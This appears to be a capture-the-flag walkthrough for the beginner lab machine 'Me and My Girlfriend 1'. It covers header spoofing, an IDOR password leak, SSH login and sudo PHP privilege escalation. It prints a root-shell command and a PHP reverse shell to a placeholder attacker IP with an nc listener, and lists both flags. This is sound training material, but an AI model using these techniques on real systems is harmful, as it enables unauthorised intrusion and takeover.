


# Me and My Girlfriend 1
## Box Description
Description: This VM tells us that there are a couple of lovers namely Alice and Bob, where the couple was originally very romantic, but since Alice worked at a private company, "Ceban Corp", something has changed from Alice's attitude towards Bob like something is "hidden", And Bob asks for your help to get what Alice is hiding and get full access to the company!

Difficulty Level: Beginner

Notes: there are 2 flag files

Learning: Web Application | Simple Privilege Escalation

## Tools Used
- arp-scan
- nmap
- burpsuite
- web-dev tools
## Enumeration
To find the IP of the VM, I performed an ARP scan:  
\
Found the IP: `192.168.122.3`

## Step 1: Nmap Scan
Performed an Nmap scan:  
\
Discovered Apache is running. Let’s access it.

## Step 2: Accessing the Web Page
Accessing the IP in browser led to an access denied page:  
\
**Tip:** Always check source code of pages.  
Found a hidden message in the source:  
\
It hinted at using `X-Forwarded-For` header.

## Step 3: Using BurpSuite to Add Header
I opened BurpSuite, intercepted the request and added the `x-forwarded-for` header:  
\
Success! Gained access to "Ceban Corp":  


## Step 4: Exploring the App
Tried SQL injection on login page – didn’t work. So I registered an account:  
\
Logged in and checked profile section. The URL had an `id` parameter:  


## Step 5: Testing for IDOR
Suspected an IDOR vulnerability – tested by changing `id` values. It worked!  
Stumbled upon an interesting user profile page with `id=5`,
Box description mentioned “Alice” so this user is important: 
\
Modified input type using browser dev tools and revealed password: `4lic3`  


## Step 6: SSH Access
Since SSH was running, tried Alice’s creds:  
\
And BOOM! Got in as alice.

## Step 7: Getting the User Flag
Couldn’t find anything obvious, so I explored hidden directories. Found a hidden directory `my_secret`:  
\
Inside the `my_secret` folder – flag1.txt: `gfriEND{2f5f21b2af1b8c3e227bcf35544f8f09}` and a note \
(poor Bob):  


## Step 8: Privilege Escalation
Checked sudo permissions – saw Alice can run PHP as root:  
\
Upgraded to root with the following command as PHP is sudo-able:  
```bash
sudo php -r 'system("/bin/bash");'
```  


### Alternative method:
```bash
sudo php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```
note: IP is the ip of attack device not of the victim device.\
And on another terminal(to recieve):  
```bash
nc -pvl PORT
```

## Step 9: Getting the Root Flag
Now that we’re root, headed for the flag:  
\
Found: `gfriEND{56fbeef560930e77ff984b644fde66e7}`

---

## 🏁 Conclusion

This box was a great mix of basic enumeration, bypass techniques, and web exploitation (X-Forwarded-For header, IDOR, dev tools).  
It reinforced the importance of:

- Always checking page source and URLs
- Thinking from a user access point of view
- Exploring every input for unintended access or leakage

Loved the progression from simple access control to privilege escalation. On to the next one! 💥
